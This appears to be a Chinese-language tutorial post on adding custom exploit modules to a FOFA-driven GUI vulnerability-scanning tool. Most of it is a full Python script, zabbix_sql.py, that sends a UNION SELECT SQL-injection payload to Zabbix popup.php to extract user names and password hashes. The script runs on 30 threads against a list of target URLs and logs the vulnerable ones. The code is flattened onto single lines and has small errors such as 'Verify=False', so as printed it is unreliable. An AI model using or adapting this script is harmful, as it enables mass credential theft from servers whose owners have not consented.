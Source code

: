 使用 fofa 的处理流程  
  
![image-20241018135727613](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZpZtn6sMh7SRPiaDlg4mWeiaNMxctpOZYicP31MSMFibCtXPiboQRSMoYibvQ/640?wx_fmt=png&from=appmsg "null")  
  
  
后续是通过 fofa 的 api 进行查询的，所以需要你的 api，只有 vip 才有这个功能  
  
然后下面是脚本调用逻辑  
  
因为一个漏洞是需要你自己写一个 python 脚本的  
  
然后加入你自己自定义的漏洞是在  
  
![image-20241018140142362](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZ7B4zRcXibpK0Sq7wJYgWGicLxg4qdtyNk8wWchpFsLRecbSWiblKpPG2g/640?wx_fmt=png&from=appmsg "null")  
  
  
这个逻辑应该很好理解，比如我的就是  
```
button50 = ttk.Button(group3,text="seacms前台sql注入",command=sql_injection_gui,width=45,bootstyle="primary")button50.grid(row=15,column=2,columnspan=2,padx=5,pady=5)
```  
  
然后就是写对应的利用脚本了  
  
因为我们写的脚本是需要贴合工具的，所以先随便找一个脚本看看大概的架构是怎么样的  
  
![image-20241018140341414](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldxMVJWToKckHykZchZqYTPZnSRChI1wDRhj8nsTxaCia9LcU2kUdYmrpN0DEZicxI7Y4lGWLWXnW6bQ/640?wx_fmt=png&from=appmsg "null")  
  
  
工具自带了许许多多的利用脚本，我们看一下如何仿写  
  
比如 zabbix_sql.py  
```
import requestsimport tkinter as tkfrom tkinter import scrolledtextfrom concurrent.futures import ThreadPoolExecutorfrom ttkbootstrap.constants import *"""Zabbix ‘popup.php’SQL注入漏洞http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201112-017Zabbix的popup.php中存在SQL注入漏洞。远程攻击者可借助only_hostid参数执行任意SQL命令。"""def zabbix_sql_exp(url):    poc = r"""popup.php?dstfrm=form_scenario&dstfld1=application&srctbl=applications&srcfld1=name&only_hostid=1))%20union%20select%201,group_concat(surname,0x2f,passwd)%20from%20users%23"""    target_url = url + poc    status_str= ['Administrator', 'User']    try:        res = requests.get(url, Verify=False,timeout=3)        if res.status_code == 200:            target_url_payload = f"{target_url}"            res = requests.get(url=target_url_payload,Verify=False)            if res.status_code == 200:                for i in range(len(status_str)):                    if status_str[i] in res.text:                        zabbix_sql.insert(END,"【*】存在漏洞的url：" + url + "\n")                        zabbix_sql.see(END)                        with open("存在Zabbix—SQL注入漏洞的url.txt", 'a') as f:                            f.write(url + "\n")            else:                target_url = url + '/zabbix/' + poc                res= requests.get(url=target_url,verify=False)                for i in range(len(status_str)):                    if status_str[i] in res.text:                        zabbix_sql.insert(END, "【*】存在漏洞的url：" + url + "\n")                        zabbix_sql.see(END)                        with open("存在Zabbix—SQL注入漏洞的url.txt", 'a') as f:                            f.write(url + "\n")        else:            zabbix_sql.insert(END, "【×】不存在漏洞的url：" + url + "\n")            zabbix_sql.see(END)    except Exception as err:        zabbix_sql.insert(END, "【×】目标请求失败，报错内容：" + str(err) + "\n")        zabbix_sql.see(END)def get_zabbix_addr():    with open("url.txt","r") as f:        for address in f.readlines():            address = address.strip()            yield addressdef zabbix_sql_gui():    zabbix_sql_poc = tk.Tk()    zabbix_sql_poc.geometry("910x450")    zabbix_sql_poc.title("Zabbix—SQL注入 漏洞一把梭")    zabbix_sql_poc.resizable(0, 0)    zabbix_sql_poc.iconbitmap('logo.ico')    global zabbix_sql    zabbix_sql= scrolledtext.ScrolledText(zabbix_sql_poc,width=123, height=25)    zabbix_sql.grid(row=0, column=0, padx=10, pady=10)    zabbix_sql.see(END)    addrs = get_zabbix_addr()    max_thread_num = 30    executor = ThreadPoolExecutor(max_workers=max_thread_num)    for addr in addrs:        future = executor.submit(zabbix_sql_exp, addr)    zabbix_sql_poc.mainloop()
```  
  